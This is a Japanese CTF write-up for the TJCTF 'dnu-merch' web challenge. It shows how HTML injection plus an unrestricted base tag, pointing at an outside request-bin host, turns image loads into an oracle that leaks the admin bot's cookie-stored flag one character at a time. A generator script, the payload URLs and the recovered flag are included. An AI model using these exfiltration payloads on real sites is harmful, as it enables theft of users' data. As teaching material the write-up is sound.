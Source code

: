 # dnu-merch:web:458pts
So, since everybody got into DNU during the RD round, we can all buy merch. However, I didn't get honors so I can't buy their super secret flag. I heard that the admin of the site is actually an honors student at DNU, pls sice me.  
[dnu-merch.tjc.tf](https://dnu-merch.tjc.tf/)  
[Admin Bot](https://admin-bot.tjctf.org/dnu-merch)  

Downloads  
[admin-bot.js](admin-bot.js)　[server.zip](server.zip)  

# Solution
サイトとAdmin Botとソースが渡される。  
アクセスすると商品を検索できるサイトのようだ。  
DNU Merch Catalog  
[site1.png](site/site1.png)  
プレースホルダーにある`Sweatshirt`を検索すると写真付きの商品がヒットした。  
![site2.png](site/site2.png)  
頭文字である`S, T`と検索すると、ヒットするものすべてが表示される。  
どうやらcookieに商品一覧が入っており、それを検索しているようだ。  
![site3.png](site/site3.png)  
Admin BotがあるのでXSSを狙う。  
`S, <s>atoki`のように商品がヒットする場合にタグを挿入することに成功した。  
![xss.png](images/xss.png)  
次にCSPを見てみる。  
```html
~~~
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://* http://* 'self'; child-src 'none'; object-src 'none';">
~~~
```
metaタグにて指定されており、imgが不自然に緩いがscriptやcssでの攻撃は狙えそうにない。  
Admin Botのふるまいを見てみると以下のようであった。  
```js
~~~
export default {
  id: 'dnu-merch',
  name: 'dnu-merch',
  timeout: 154000,
  handler: async (url, ctx) => {
    const page = await ctx.newPage();
    await page.setCookie({
      domain: 'dnu-merch.tjc.tf',
      name: 'items',
      value: JSON.stringify([{ title: flag.trim(), cost: 100000 }]),
      secure: true,
      sameSite: 'None',
    });
    await page.goto(url, { timeout: 3000, waitUntil: 'domcontentloaded' });
    await sleep(150000);
  },
};
```
`flag`を`title`にした商品をAdmin Botのcookieに追加し、送信されたURLにアクセスするようだ。  
つまり、Admin Botにのみ存在する商品名をリークする必要がある。  
ひとまず`Sweatshirt`を`flag`とみたてて商品表示部分を見てみる。  
```html
~~~
<div class="result-card">
  <div class="img-bg">
    <img class="img-merch" src="/public/merch/dnu_sweater.png">
  </div>
  <h3 class="result-card-title">Sweatshirt</h3>
  <h5 class="result-card-cost">$30</h5>
</div>
~~~
```
titleにある商品名を取得するのは難しい。  
ここで、imgが相対パスで記述されていることに気づく。  
CSPに指定のなかったbaseをタグとして挿入すれば、任意のサイトのimgを表示させることができる。  
挿入するタグは`<base href="https://satoki.example.com/">`のようになる。  
すると画像のフルパスは`https://satoki.example.com/public/merch/dnu_sweater.png`となる。  
画像を外部から取得できることは一見すると何も意味がないと感じるが、ここで検索で商品がヒットしない場合には画像が表示されないことを思い出す。  
つまり、画像へのリクエストが来るかどうかで検索でヒットしたかどうかを外部から知ることができる。  
そして検索は頭文字など部分一致でもヒットしていた。  
これらを用いてAdmin Bot上から一文字ずつ商品名をリークできる。  
商品名がflagになっているはずなので`tjctf{X, <base href="https://xxxxxxxxxxxxx.x.pipedream.net/">`の`X`を変更してAdmin Botに投げる。  
画像へのリクエストが来た場合、検索にヒットしているものがあるため、文字が確定する。  
ここではリクエストの取得に[RequestBin.com](https://requestbin.com/)を用いた。  
手動で一文字ずつ行うのはつらいので、以下のleak.pyで文字を大雑把に予測し、その中から手動で見つけ出す手法をとる。  
```python
flag = "tjctf{"
recv_url = "https://xxxxxxxxxxxxx.x.pipedream.net"
guess_list = ["abcdefg","hijklmn","opqrstu","vwxyzAB","CDEFGHI","JKLMNOP","QRSTUVW","XYZ0123","456789_"]

for i in guess_list:
    print(f"https://dnu-merch.tjc.tf/search?search=", end="")
    for j in i:
        print(f"{flag}{j},%20", end="")
    print(f"%3Cbase%20href=%22{recv_url}%2F{flag}%2F{i}%2F%22%3E")
```
実行する。  
```bash
$ python leak.py
https://dnu-merch.tjc.tf/search?search=tjctf{a,%20tjctf{b,%20tjctf{c,%20tjctf{d,%20tjctf{e,%20tjctf{f,%20tjctf{g,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2Fabcdefg%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{h,%20tjctf{i,%20tjctf{j,%20tjctf{k,%20tjctf{l,%20tjctf{m,%20tjctf{n,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2Fhijklmn%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{o,%20tjctf{p,%20tjctf{q,%20tjctf{r,%20tjctf{s,%20tjctf{t,%20tjctf{u,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2Fopqrstu%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{v,%20tjctf{w,%20tjctf{x,%20tjctf{y,%20tjctf{z,%20tjctf{A,%20tjctf{B,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2FvwxyzAB%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{C,%20tjctf{D,%20tjctf{E,%20tjctf{F,%20tjctf{G,%20tjctf{H,%20tjctf{I,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2FCDEFGHI%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{J,%20tjctf{K,%20tjctf{L,%20tjctf{M,%20tjctf{N,%20tjctf{O,%20tjctf{P,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2FJKLMNOP%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{Q,%20tjctf{R,%20tjctf{S,%20tjctf{T,%20tjctf{U,%20tjctf{V,%20tjctf{W,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2FQRSTUVW%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{X,%20tjctf{Y,%20tjctf{Z,%20tjctf{0,%20tjctf{1,%20tjctf{2,%20tjctf{3,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2FXYZ0123%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{4,%20tjctf{5,%20tjctf{6,%20tjctf{7,%20tjctf{8,%20tjctf{9,%20tjctf{_,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2F456789_%2F%22%3E
```
Admin Botにこれらを投げると、`/tjctf%7B/vwxyzAB/undefined`とリクエストが到達する。  
`wxyzAB`のどれかとわかるので、一つずつ確認すればよい。  
すると
```
https://dnu-merch.tjc.tf/search?search=tjctf{w,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2Fw%2F%22%3E
```
にて`/tjctf%7B/w/undefined`が到達したため、一文字目は`w`であることがわかった。  
これを繰り返し、すべてマッチしない場合には`}`となる。  
最終的に
```
https://dnu-merch.tjc.tf/search?search=tjctf{wtf_not_h0nors_14452dbc,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{wtf_not_h0nors_14452dbc%2F}%2F%22%3E
```
にて`/tjctf%7Bwtf_not_h0nors_14452dbc/%7D/undefined`が到達し、flagを取得することができた。  

## tjctf{wtf_not_h0nors_14452dbc}